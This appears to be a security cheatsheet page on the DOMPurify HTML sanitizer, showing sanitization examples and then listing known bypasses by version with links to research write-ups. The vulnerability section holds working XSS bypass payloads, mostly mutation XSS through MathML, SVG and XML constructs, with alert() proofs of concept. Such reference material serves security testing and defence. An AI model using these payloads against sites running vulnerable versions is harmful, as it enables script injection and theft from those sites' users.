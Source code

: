 ```yaml
---
title: "DOMPurify"
description: "Cheatsheet on DOMPurify"
lead: "Cheatsheet on DOMPurify"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "framework"
weight: 620
toc: true
---
```


## DOMPurify

[DOMPurify](https://github.com/cure53/DOMPurify) is the leading client-side XSS sanitizer for HTML, MathML and SVG.

Examples of sanitization:

```js
DOMPurify.sanitize('<img src=x onerror=alert(1)//>'); // becomes <img src="x">
DOMPurify.sanitize('<svg><g/onload=alert(2)//<p>'); // becomes <svg><g></g></svg>
DOMPurify.sanitize('<p>abc<iframe//src=jAva&Tab;script:alert(3)>def</p>'); // becomes <p>abc</p>
DOMPurify.sanitize('<math><mi//xlink:href="data:x,<script>alert(4)</script>">'); // becomes <math><mi></mi></math>
DOMPurify.sanitize('<TABLE><tr><td>HELLO</tr></TABL>'); // becomes <table><tbody><tr><td>HELLO</td></tr></tbody></table>
DOMPurify.sanitize('<UL><li><A HREF=//google.com>click</UL>'); // becomes <ul><li><a href="//google.com">click</a></li></ul>
```

## Vulnerabilities

### Version <= 3.0.10 & 3.0.11

- [Bypassing DOMPurify with good old XML](https://flatt.tech/research/posts/bypassing-dompurify-with-good-old-xml/)

```xml
<?xml-stylesheet > <img src=x onerror="alert('DOMPurify bypassed!!!')"> ?>
<?img ><img src onerror=alert(1)>?>
<![CDATA[ ><img src onerror=alert(1)> ]]>
```

### Version 3.0.8

- [Playing with DOMPurify custom elements handling](https://mizu.re/post/playing-with-dompurify-ce-handling)

### Version < 2.1

- [Bypassing DOMPurify again with mutation XSS](https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss)

```html
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;img src=1 onerror=alert(1)&gt;">
```

### Version < 2.0.17

- [Mutation XSS via namespace confusion](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/)

```html
<form>
<math><mtext>
</form><form>
<mglyph>
<style></math><img src onerror=alert(1)>
```

### Version <= 2.0.0

- [Write-up of DOMPurify 2.0.0 bypass using mutation XSS](https://research.securitum.com/dompurify-bypass-using-mxss/)

```html
<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">
```